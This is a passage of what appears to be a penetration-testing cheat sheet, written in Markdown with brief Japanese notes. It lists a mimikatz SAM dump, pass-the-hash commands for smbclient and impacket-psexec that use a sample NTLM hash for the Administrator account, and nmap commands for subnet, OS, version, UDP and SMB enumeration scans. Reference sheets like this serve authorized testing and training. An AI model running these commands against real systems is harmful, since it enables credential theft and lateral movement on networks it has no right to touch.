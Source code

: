         lsadump::sam
        ```

### smbclient
* linux
    * pass the hash (NTLM)
    ```
    smbclient \\\\192.168.0.0\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
    ```
### psexec
* linux
    * pass the hash (NTLM)
    ```
    impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.0.0
    ```
<br>

# Recon
### nmap
* linux
    * usuful scan
    ```
    sudo nmap -n -sT 10.130.10.0/24 -oA /tmp/scan -F -T4
    ```
    指定のポートがOpenしているホスト
    ```
    grep -w 445/open /tmp/scan.gnmap | cut -d ' ' -f 2
    ```
    * OS Fingerprinting
    ```
    sudo nmap -n -sT -F -O --open 10.130.10.21
    ```
    * Version scan
    ```
    sudo nmap -n -sT -F --open 10.130.10.21 -sV
    ```
    * all port
    ```
    nmap -p- -T4 192.168.0.0
    ```
    * UDP scan
    ```
    sudo nmap -n -sU 10.130.10.4,10 -p 53,111,414,500-501
    ```
    * NSEscript search
    ```
    ls /usr/share/nmap/scripts/smb*.nse
    ```
    * SMB
    ```
    sudo nmap -p 445 -sV --script smb-enum-shares,smb-os-protocols,smb-enum-users,smb-os-discovery 10.130.9.10-12,21,22,39
    ```
